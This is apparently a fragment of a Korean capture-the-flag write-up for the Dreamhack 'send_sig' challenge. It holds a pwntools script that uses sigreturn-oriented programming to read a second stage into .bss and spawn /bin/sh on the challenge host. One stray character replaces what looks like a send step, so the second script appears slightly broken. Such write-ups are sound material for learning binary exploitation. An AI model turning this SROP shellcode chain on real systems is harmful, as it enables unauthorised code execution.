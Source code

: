 ```python
p.sendline(payload)

p.interactive()
```

![image.png](attachment:04883856-4fbe-4073-bf0d-153a11d82ee7:image.png)
<img width="1372" height="513" alt="image (54)" src="https://github.com/user-attachments/assets/ae842862-fc4e-4c18-a39d-e2562ba7e378" />

쉘을 얻었다.  

그리고 만약 binsh가 없었다해도,   

```python
from pwn import *

context.arch = 'x86_64'

p = remote('host1.dreamhack.games', 20155)          
#p = process('./send_sig')
e = ELF('./send_sig')

read_got = e.got['read']

pop_rax = 0x4010ae
syscall = 0x4010b0

bss = e.bss()

# read(0, bss, 0x1000)
# syscall number : 0
frame1 = SigreturnFrame()
frame1.rax = 0
frame1.rdi = 0
frame1.rsi = bss
frame1.rdx = 0x1000
frame1.rip = syscall
frame1.rsp = bss

payload = b'A' * 16
payload += p64(pop_rax)
payload += p64(15)
payload += p64(syscall)
payload += bytes(frame1)

p.recvuntil(b'Signal:')
ㅊ

# execve(binsh, 0, 0)
# syscall number : 0x3b
frame2 = SigreturnFrame()
frame2.rip = syscall
frame2.rax = 0x3b
frame2.rsp = bss + 0x500
frame2.rdi = bss + 0x110

payload = p64(pop_rax) # 8bytes
payload += p64(15) # 8 bytes
payload += p64(syscall) # 8 bytes
payload += bytes(frame2) # 0xf8, (248 bytes)
payload += b"/bin/sh\x00"

p.sendline(payload)

p.interactive()
```